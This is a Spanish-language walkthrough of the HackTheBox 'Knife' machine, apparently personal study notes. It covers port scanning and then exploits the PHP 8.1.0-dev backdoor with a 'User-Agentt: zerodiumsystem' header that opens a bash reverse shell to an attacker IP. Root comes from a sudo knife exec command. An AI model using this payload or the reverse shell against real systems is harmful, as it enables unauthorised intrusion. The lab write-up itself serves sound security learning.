 #linux #easy #nmap #ping #whatweb #php810dev #burpsuite #revershell #sudo-l

-------
# Guided Mode

1)¿Cuántos puertos TCP están abiertos en Knife?
	2

2)¿Qué versión de PHP se está ejecutando en el servidor web?
	8.1.0-dev

3)¿Qué cabecera de petición HTTP se puede añadir para conseguir la ejecución de código en esta versión de PHP?
	User-Agentt

4)¿Con qué usuario se ejecuta el servidor web?
	james

*La pregunta anterior era la flag de user.txt*
6)¿Cuál es la ruta completa al binario en esta máquina que James puede ejecutar como root?
	/usr/bin/knife

------------------
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.10.10.242
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.242 -oG allPorts
extractPorts allPorts
nmap -sCV -p22,80 10.10.10.242 -oN target
```


![[Knife1.png]]
![[Knife2.png]]
*TTL:* Maquina linux
*Puertos:*
	`22`[[ssh]]
	`80`HTTP

------------
# [[Whatweb-wappalyzer]]

```shell
whatweb http://10.10.10.242/
```

![[Knife3.png]]
Nos informa que la pagina tiene php 8.1.0

-----
# Intrusion Vulnerabilidad php 8.1-dev

Interceptamos la peticion con [[burpsuite]]

![[Knife4.png]]
Ahora vamos a añadir la linea que es vulnerable de User-Agentt: y le vamos a inyectar el one liner que casi siempre usamos para la [[Reverse shell]] 
```
User-Agentt: zerodiumsystem('bash -c "bash -i >& /dev/tcp/10.10.16.7/443 0>&1"');
```

Ahora mientras estamos en escucha con [[nc -nlvp 443]], mandamos la peticion
![[Knife5.png]]

Y listo ya estamos adentro de la maquina
![[Knife6.png]]

--------
# [[Tratamiento de la TTY]]

-----
# Escalada de privilegios con [[Abuso de Sudo]]

Usamos el comando `sudo -l`

![[Knife7.png]]
Y nos indica que james puede usar el binario knife, siendo root sin otorgar contraseña

Articulo de [gtfobinds](https://gtfobins.github.io/gtfobins/knife/#sudo) donde nos indica como meter un payload desde sudo para elevar privilegios, asi que lo adaptamos a nuestra maquina
![[Knife8.png]]
```shell
sudo /usr/bin/knife exec -E 'exec "/bin/bash"'
```
Y listo ya ganamos acceso como root y podemos visualizar las flags

![[Knife10.png]]

-------
# Creditos
[Exploit 49933 de searchsploit](https://www.exploit-db.com/exploits/49933) Que lo pudimos usar de referencia para entender la vulnerabilidad



